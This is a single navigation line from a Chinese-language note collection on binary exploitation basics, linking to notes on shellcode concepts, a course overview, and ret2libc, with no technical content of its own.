⬅️ 上一篇 [[03.Shellcode概念]] ｜ 🏠 [[00.二进制漏洞与利用基础总览]] ｜ 下一篇 [[05.ret2libc]] ➡️
